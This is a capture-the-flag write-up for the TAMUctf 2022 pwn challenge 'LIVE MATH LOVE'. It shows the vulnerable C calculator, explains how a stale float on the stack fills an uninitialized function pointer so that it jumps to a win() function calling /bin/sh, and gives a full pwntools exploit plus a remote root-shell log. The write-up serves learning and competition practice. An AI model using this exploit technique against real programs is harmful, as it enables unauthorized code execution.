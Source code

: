 ## LIVE MATH LOVE

> Points: 194
>
> Solves: 40

### Description:
> Author: Lane
>
> I made this cool calculator! Hope there's nothing vulnerable in here
>
> SNI: live-math-love

### Attachments:
> live_math_love.zip
> 
> live_math_love
>
> live_math_love.c
>
> solver-template.py

### C code:

```c
#include <stdio.h>
#include <stdlib.h>

void win()  {
    system("/bin/sh");
}

void add() {
    float a;
    float b;
    scanf("%f\n", &a);
    scanf("%f\n", &b);

    printf("%f\n", a+b);
}

void sub() {
    float a;
    float b;
    scanf("%f\n", &a);
    scanf("%f\n", &b);

    printf("%f\n", a-b);
}

void mult() {
    float a;
    float b;
    scanf("%f\n", &a);
    scanf("%f\n", &b);

    printf("%f\n",a*b);
}


void menu() {
    printf("LIVE MATH LOVE\n");
    printf("1. Add\n");
    printf("2. Subtract\n");
    printf("3. Multiply\n");
    printf("> ");

    void (*action)();
    int choice;
    scanf("%d\n", &choice);

    if (choice == 1) {
        action = add;
    } else if (choice == 2) {
        action = sub;
    } else if (choice == 3) {
        action = mult;
    }

    action();


    menu();
}


void main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

}
```

## Analysis:

If Action is set to anything other than 1,2,3, a Segmentation fault will occur because the action variable is not set.
```
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ ./live_math_love
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 4
1
Segmentation fault (core dumped)
```

If we enter `1` as shown below, it will be called to `0x3f800000`. `0x3f800000` is a floating point value of `1`.
```c
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ gdb -q ./live_math_love
Reading symbols from ./live_math_love...
(No debugging symbols found in ./live_math_love)
gdb-peda$ run
Starting program: /home/mito/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/live_math_love 
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1
0
1
0
1.000000
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x4013b0 (<__libc_csu_init>:	push   r15)
RCX: 0x0 
RDX: 0x3f800000 
RSI: 0x31 ('1')
RDI: 0x7fffffffd9b0 --> 0x7fffffff0030 --> 0x0 
RBP: 0x7fffffffdf00 --> 0x7fffffffdf20 --> 0x7fffffffdf30 --> 0x0 
RSP: 0x7fffffffdee8 --> 0x401338 (<menu+169>:	mov    eax,0x0)
RIP: 0x3f800000 
R8 : 0x31 ('1')
R9 : 0x0 
R10: 0x7ffff7f5cac0 --> 0x100000000 
R11: 0x246 
R12: 0x401080 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe020 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10293 (CARRY parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x3f800000
```

We can start `/bin/sh` by typing `5.883707532277683e-39` instead of `1` above. `5.883707532277683e-39` is the value of the floating point format `struct.unpack('!f', '\x00\x40\x11\x62')[0]` of the address(`0x401162`) of the win function.

```c
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ ./live_math_love
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1
0
5.883707532277683e-39
0
0.000000
LIVE MATH LOVE
1. Add
2. Subtract
3. Multiply
> 1
$ $  

```


## Exploit code:
The Exploit code is below.
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './live_math_love'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = remote("tamuctf.com", 443, ssl=True, sni="live-math-love")
else:
  s = process(BINARY)
  
s.sendlineafter("> ", "1")
s.sendline("0")
s.sendline("5.883707532277683e-39") # struct.unpack('!f', '\x00\x40\x11\x62')[0]
s.sendline("0")
s.sendlineafter("> ", "1")

s.interactive()
```

## Results:
The execution result is as follows.
```bash
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ python3 solve.py r
[*] '/home/mito/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/live_math_love'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 28
-rw-r--r-- 1 root root    77 Apr 13 04:56 docker_entrypoint.sh
-rw-r--r-- 1 root root    20 Apr  9 22:54 flag.txt
-rwxr-xr-x 1 root root 16904 Apr 13 04:55 live_math_love
$ cat flag.txt
gigem{m47h3m461c4l!} 
```

## Reference:

